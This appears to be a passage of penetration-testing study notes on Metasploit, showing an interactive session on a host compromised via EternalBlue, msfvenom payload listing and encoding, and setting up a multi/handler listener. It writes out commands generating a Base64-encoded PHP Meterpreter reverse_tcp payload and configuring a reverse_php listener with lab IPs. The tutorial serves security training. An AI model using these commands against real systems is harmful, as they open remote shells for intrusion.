 ## Active Session Management

To interact with a specific session:

```plaintext
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 1
[*] Starting interaction with 1...
C:\Windows\system32>
```

## Msfvenom Overview

Msfvenom is a versatile tool for generating payloads across various formats (PHP, exe, dll, elf, etc.) and platforms (Windows, Linux, Android, etc.).

### Listing Payloads

Use the command:

```bash
msfvenom -l payloads
```

This command displays all available payloads in the Metasploit framework (total of 562).

### Output Formats

Generate standalone payloads or raw formats. To list supported output formats:

```bash
msfvenom --list formats
```

### Encoders

Encoders do not bypass antivirus; they simply encode payloads. For example, encoding a PHP Meterpreter payload in Base64:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
```

The output payload must be edited to include the starting PHP tag (`<?php`) and ending tag (`?>`).

### Setting Up the Listener

To catch incoming connections, use the Multi Handler:

Load the handler:

```bash
use exploit/multi/handler
```

Set the payload, local host, and port:

```bash
set payload php/reverse_php
set lhost 10.0.2.19
set lport 7777
```
